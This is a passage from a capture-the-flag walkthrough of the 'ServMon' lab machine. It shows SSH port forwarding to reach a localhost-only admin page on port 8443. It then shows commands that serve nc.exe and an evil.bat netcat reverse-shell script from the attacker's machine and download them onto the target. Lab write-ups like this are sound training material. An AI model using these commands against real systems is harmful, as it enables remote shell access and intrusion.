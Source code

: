 ![](images/403NotAllowed.png)

this is probably because only localhost is allowed to login, so we need to access the webpage from ServMon's localhost   
to do this we need to create a tunnel to forward the port 8443 from localhost of ServMon to some port on our machine   
to create a tunnel, we can use **chisel** but in this case as we have SSH creds, it is easier to use SSH port forwarding  
```
ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
```

now we can access the website on our machine on `https://127.0.0.1:8443/` and we don't get 403 not allowed error   

### step 3
put the netcat reverse shell command in evil.bat and wget evil.bat and nc.exe from my machine to ServMon   
the nc.exe file is in `/usr/share/windows-resources/binaries/` directory   

commands to run on kali
```
cp /usr/share/windows-resources/binaries/nc.exe .
sudo python3 -m http.server 80
```

commands to run on ServMon in powershell
```
wget -o evil.bat 10.10.14.169/evil.bat
wget -o nc.exe 10.10.14.169/nc.exe
```
